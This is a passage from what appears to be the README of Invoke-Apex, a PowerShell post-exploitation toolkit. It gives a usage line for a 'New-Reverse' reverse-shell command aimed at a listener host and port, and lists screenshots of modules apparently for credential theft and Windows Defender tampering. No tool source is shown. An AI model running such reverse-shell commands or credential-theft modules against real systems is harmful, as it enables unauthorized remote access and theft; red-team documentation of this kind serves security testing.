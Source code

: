 ```	   

Usage: ```New-Reverse -Lhost 192.168.1.1 -Lport 443```


# Usage Screenshots

## Invoke-Creds 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-Creds.png)

## Invoke-DefenderTools 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-DefenderTools.png)

## Invoke-Execute 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-Execute.png)

## Invoke-MitreReference 

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-MitreReference.png)


# DISCLAIMER
THIS SOFTWARE IS PROVIDED 'AS IS' AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

